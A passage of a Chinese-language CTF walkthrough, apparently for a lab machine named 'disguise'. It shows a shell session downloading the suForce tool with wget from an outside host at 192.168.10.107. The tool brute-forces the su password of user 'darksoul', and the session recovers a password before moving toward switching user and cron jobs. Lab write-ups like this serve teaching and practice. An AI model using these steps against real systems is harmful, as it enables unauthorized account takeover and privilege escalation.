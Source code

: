 ```bash
(remote) www-data@disguise:/tmp$ wget http://192.168.10.107:8888/suForce
--2025-06-20 14:21:57--  http://192.168.10.107:8888/suForce
Connecting to 192.168.10.107:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2430 (2.4K) [text/plain]
Saving to: 'suForce'

suForce                                         100%[====================================================================================================>]   2.37K  --.-KB/s    in 0s      

2025-06-20 14:21:57 (575 MB/s) - 'suForce' saved [2430/2430]

(remote) www-data@disguise:/tmp$ chmod +x suForce
(remote) www-data@disguise:/tmp$ ./suForce -u darksoul -w aaa
            _____                          
 ___ _   _ |  ___|__  _ __ ___ ___   
/ __| | | || |_ / _ \| '__/ __/ _ \ 
\__ \ |_| ||  _| (_) | | | (_|  __/  
|___/\__,_||_|  \___/|_|  \___\___|  
───────────────────────────────────
 code: d4t4s3c     version: v1.0.0
───────────────────────────────────
🎯 Username | darksoul
📖 Wordlist | aaa
🔎 Status   | 94/94/100%/Str0ngPassw0d1~~~
❗ Fuck!    | Password not found
───────────────────────────────────


(remote) www-data@disguise:/tmp$ ./suForce -u darksoul -w aaa
            _____                          
 ___ _   _ |  ___|__  _ __ ___ ___   
/ __| | | || |_ / _ \| '__/ __/ _ \ 
\__ \ |_| ||  _| (_) | | | (_|  __/  
|___/\__,_||_|  \___/|_|  \___\___|  
───────────────────────────────────
 code: d4t4s3c     version: v1.0.0
───────────────────────────────────
🎯 Username | darksoul
📖 Wordlist | aaa
🔎 Status   | 83/94/88%/Str0ngPassw0d1???
💥 Password | Str0ngPassw0d1???
───────────────────────────────────
```

不行就多跑几遍：`Str0ngPassw0d1???`

尝试切换用户。

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506210258228.png" alt="image-20250621022559001" style="zoom: 50%;" />

### 定时任务
